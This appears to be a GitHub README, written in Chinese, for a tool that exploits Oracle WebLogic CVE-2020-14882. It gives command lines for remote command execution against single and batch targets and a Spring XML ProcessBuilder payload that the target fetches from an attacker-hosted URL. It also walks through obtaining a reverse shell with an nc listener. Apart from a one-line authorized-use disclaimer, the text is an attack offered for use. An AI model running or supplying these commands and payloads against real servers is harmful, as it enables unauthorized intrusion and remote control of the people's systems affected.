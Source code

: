# CVE-2020-14882_ALL

CVE-2020-14882_ALL综合利用工具，支持命令回显检测、批量命令回显、外置xml无回显命令执行等功能。

需要模块：requests、http.client

**（工具仅用于授权的安全测试，请勿用于非法使用，违规行为与作者无关。）**

命令回显模块已知成功版本：12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

### 选项

![](./images/1.png)



### 功能一：命令回显

python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "net user"

![](./images/2.png)

python3 CVE-2020-14882_ALL.py -u http://1.1.1.1:7001 -c "whoami"

![](./images/3.png)



### 功能二：批量命令回显

python3 CVE-2020-14882_ALL.py -f target.txt -c "whoami"

target.txt 格式：http://x.x.x.x:xx，一行一个。

![](./images/4.png)



### 功能三：外置xml文件无回显命令执行

1、Linux反弹shell为例，编辑好poc.xml文件，开启python监听。  

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
	<value>cmd</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

开启python监听。

![](./images/5.png)

nc开启监听。

![](./images/6.png)

2、使用-x选项指定xml文件路径，发送payload。

python3 CVE-2020-14882_ALL.py -u http://xxxx:7001 -x http://xxx:8000/poc.xml

![](./images/7.png)

3、成功接收shell。

![](./images/8.png)


